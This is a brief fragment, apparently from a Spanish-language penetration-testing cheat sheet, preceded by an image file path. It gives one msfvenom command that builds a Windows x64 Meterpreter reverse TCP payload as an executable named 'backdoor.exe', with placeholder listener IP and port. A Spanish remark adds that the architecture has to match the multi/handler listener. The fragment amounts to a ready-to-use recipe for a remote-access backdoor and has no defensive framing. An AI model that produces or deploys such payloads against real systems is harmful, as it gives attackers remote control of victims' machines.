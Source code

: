 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe >backdoor.exe

NOTA: tener en cuenta la arquitectura si no especificamos x64 será por defecto x32 y si nos ponemos en escucha el multi/handler payload debe de ser x64 también.